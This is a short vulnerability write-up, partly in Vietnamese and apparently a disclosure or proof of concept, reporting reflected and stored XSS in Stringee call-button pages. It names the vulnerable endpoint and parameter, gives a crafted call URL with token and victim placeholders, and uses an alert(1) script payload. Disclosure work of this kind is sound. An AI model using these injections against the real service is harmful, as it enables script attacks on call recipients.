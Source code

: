 # Reflected XSS + Stored XSS




## Reflected XSS 

Endpoint : https://static.stringee.com/button-call/lastest/videocall/popup_voicecall.html?from_number=[xss]

Inject : ```<script>alert(1)</script>```

![](/Reflected_XSS.jpg)


## Stored XSS

Url : https://developer.stringee.com/report/call

Inject : ```<script>alert(1)</script>```

Tạo một access_token để thực hiện cuộc gọi thay đổi tên người cuộc gọi = inject ==> người nhận bị xss

Endpoint : 

```
https://static.stringee.com/button-call/lastest/videocall/popup_voicecall.html
?from_number=[xss]
&to_number=84936423493
&call_type=free-voice-call
&access_token=[secret]
&hotline=[victim]

```

Inject : ```<script>alert(1)</script>```

![](/Reflected_XSS.jpg)